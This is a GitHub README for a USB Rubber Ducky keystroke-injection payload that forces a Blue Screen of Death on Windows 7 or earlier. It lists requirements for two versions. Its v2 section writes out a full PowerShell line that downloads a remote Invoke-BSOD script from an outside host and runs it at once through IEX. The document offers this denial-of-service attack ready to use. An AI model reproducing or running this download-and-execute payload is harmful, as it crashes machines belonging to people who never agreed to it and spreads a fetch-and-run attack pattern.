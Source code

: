 # BQOD:tHE_bLUE_qUACK_oF_dEATH
A script for Rubber Ducky which uses the Invoke-bsod powershell technique to trigger a Blue Screen of Death

</BR>

</BR>


https://github.com/peewpw/Invoke-BSOD


</BR>

![Alt text](https://github.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/blob/master/img/DUCKY-KILLERS.jpg)


</BR>

<h2>v1</h2>

</br>

<h3> Requirements</h3>

</br>

-Twin Duck Firmware

-Rubber Ducky Must be Named "_"

-BSOD.exe

</BR>

<h3>Os Compatibility</h3>
  
</BR>

-Windows 7 or Earlier

</BR>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/master/img/BQOD.JPG)

</BR>

<h2>v2</h2>

</br>

<h3>Requirements</h3>

</br>

-None

</BR>

<h3>Os Compatibility</h3>

</BR>

-Windows 7 or Earlier

</BR>

STRING powershell IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD

</BR>
